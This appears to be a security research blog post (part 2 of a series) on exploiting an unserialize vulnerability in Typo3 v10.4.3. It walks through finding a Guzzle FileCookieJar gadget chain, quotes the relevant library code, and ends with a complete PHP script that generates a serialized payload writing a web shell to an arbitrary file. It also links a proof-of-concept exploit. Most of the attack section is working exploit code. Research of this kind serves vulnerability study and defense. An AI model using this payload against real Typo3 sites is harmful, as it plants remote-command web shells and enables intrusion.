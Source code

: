 ```yaml
---
permalink: /c1100
---
```

{% raw %}
# C1100: Looking into Typo3 v10.4.3 source code - part 2

Now that we have an unserialize we need to find some gadgets. Either you search by hand or the audited application uses known libraries and I recommend using [phpgcc](https://github.com/ambionics/phpggc) from [Ambionics](https://www.ambionics.io/blog/).

To quote what is explained on the github repository:
> PHPGGC is a library of unserialize() payloads along with a tool to generate them, from command line or programmatically. When encountering an unserialize on a website you don't have the code of, or simply when trying to build an exploit, this tool allows you to generate the payload without having to go through the tedious steps of finding gadgets and combining them. It can be seen as the equivalent of frohoff's ysoserial, but for PHP. Currently, the tool supports: CodeIgniter4, Doctrine, Drupal7, Guzzle, Laravel, Magento, Monolog, Phalcon, Podio, Slim, SwiftMailer, Symfony, Wordpress, Yii and ZendFramework.

It turned out that I spent a little bit of time looking for a gadget chain, and when I finally found one, I realized that it was already implemented in [phpgcc](https://github.com/ambionics/phpggc) 3 years ago, that is why I recommend it to you.

## The chain

With grep, I searched for references to the following functions:
- __wakeup()
- __toString()
- __destruct()
- __call()

```
▶ grep -R "__wakeup(\|__toString(\|__destruct(\|__call("

...

typo3_src/vendor/guzzlehttp/guzzle/src/Client.php:    public function __call($method, $args)
typo3_src/vendor/guzzlehttp/guzzle/src/HandlerStack.php:    public function __toString()
typo3_src/vendor/guzzlehttp/guzzle/src/Cookie/SetCookie.php:    public function __toString()
typo3_src/vendor/guzzlehttp/guzzle/src/Cookie/SessionCookieJar.php:    public function __destruct()
typo3_src/vendor/guzzlehttp/guzzle/src/Cookie/FileCookieJar.php:    public function __destruct()
typo3_src/vendor/guzzlehttp/guzzle/src/Handler/CurlMultiHandler.php:    public function __destruct()

...

```

And it was with function `__destruct()` of class `FileCookieJar` that I found what I was looking for.

File: <span style="color:red">\<ROOT\>/typo3_src/vendor/guzzlehttp/guzzle/src/Cookie/FileCookieJar.php</span>
```php
public function __destruct()
{
    $this->save($this->filename);
}
```

File: <span style="color:red">\<ROOT\>/typo3_src/vendor/guzzlehttp/guzzle/src/Cookie/FileCookieJar.php</span>
```php
public function save($filename)
{
    $json = [];
    foreach ($this as $cookie) {
        /** @var SetCookie $cookie */
        if (CookieJar::shouldPersist($cookie, $this->storeSessionCookies)) {
            $json[] = $cookie->toArray();
        }
    }

    $jsonStr = \GuzzleHttp\json_encode($json);
    if (false === file_put_contents($filename, $jsonStr, LOCK_EX)) {
        throw new \RuntimeException("Unable to save file {$filename}");
    }
}
```

As it can be seen above, function `file_put_contents()` is called from function `save()`. Let's look at the function `CookieJar::shouldPersist()` from the class `CookieJarInterface` and the constructor of the class `SetCookie` below:

File: <span style="color:red">\<ROOT\>/typo3_src/vendor/guzzlehttp/guzzle/src/Cookie/CookieJar.php</span>
```php
public static function shouldPersist(SetCookie $cookie, $allowSessionCookies = false) {
    if ($cookie->getExpires() || $allowSessionCookies) {
        if (!$cookie->getDiscard()) {
            return true;
        }
    }

    return false;
}
```

File:<span style="color:red">\<ROOT\>/typo3_src/vendor/guzzlehttp/guzzle/src/Cookie/SetCookie.php</span>
```php
class SetCookie
{
    /** @var array */
    private static $defaults = [
        'Name'     => null,
        'Value'    => null,
        'Domain'   => null,
        'Path'     => '/',
        'Max-Age'  => null,
        'Expires'  => null,
        'Secure'   => false,
        'Discard'  => false,
        'HttpOnly' => false
    ];

    /** @var array Cookie data */
    private $data;

    ...

    /**
     * @param array $data Array of cookie data provided by a Cookie parser
     */
    public function __construct(array $data = [])
    {
        $this->data = array_replace(self::$defaults, $data);
        // Extract the Expires value and turn it into a UNIX timestamp if needed
        if (!$this->getExpires() && $this->getMaxAge()) {
            // Calculate the Expires date
            $this->setExpires(time() + $this->getMaxAge());
        } elseif ($this->getExpires() && !is_numeric($this->getExpires())) {
            $this->setExpires($this->getExpires());
        }
    }

    ...

```

Now that we have all the information we've been looking for, let's stick all the pieces together...

```php
<?php
namespace GuzzleHttp\Cookie;

class SetCookie {
    private static $defaults = [
        'Name'     => null,
        'Value'    => null,
        'Domain'   => null,
        'Path'     => '/',
        'Max-Age'  => null,
        'Expires'  => null,
        'Secure'   => false,
        'Discard'  => false,
        'HttpOnly' => false
    ];
    private $data;

    public function __construct() {
        $this->data = array_replace(self::$defaults, ["Value" => "<?php system(\$_GET['cmd']); ?>", "Expires"  => 1]);
    }
}

class CookieJar {
    private $cookies;
    private $strictMode = false;

    public function __construct() {
        $this->cookies = [new SetCookie()];
    }
}

class FileCookieJar extends CookieJar {
    private $filename;
    private $storeSessionCookies = true;

    public function __construct($filename) {
        parent::__construct();
        $this->filename = $filename;
    }
}

$p[0] = 0;
$p[1] = new FileCookieJar($argv[1]);

$s = serialize($p);
$b = base64_encode($s);
echo $b;
```

## Ref

- [POC](https://github.com/therealcoiffeur/therealcoiffeur.github.io/blob/master/tools/Typo3/fw_10.4.3.py)
{% endraw %}